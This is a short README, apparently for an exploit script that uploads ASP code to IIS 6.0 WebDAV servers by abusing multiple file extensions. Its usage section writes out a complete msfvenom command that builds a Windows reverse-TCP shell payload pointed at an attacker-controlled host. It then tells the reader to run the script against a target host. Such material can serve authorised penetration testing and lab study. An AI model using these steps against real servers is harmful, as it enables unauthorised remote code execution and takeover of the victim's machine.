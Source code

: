 # WebDAV Upload Bypass

Simple Script to exploit Webdav running on Microsoft IIS 6.0 incorrectly executing ASP code in files that have multiple file extensions. 

**TO USE:**

Generate msfvenom payload: e.g. msfvenom -p windows/shell_reverse_tcp LHOST=x.x.x.x LPORT=4444 -f asp > \<filename\>
  
Then run: ./script \<host\> \<filename\>
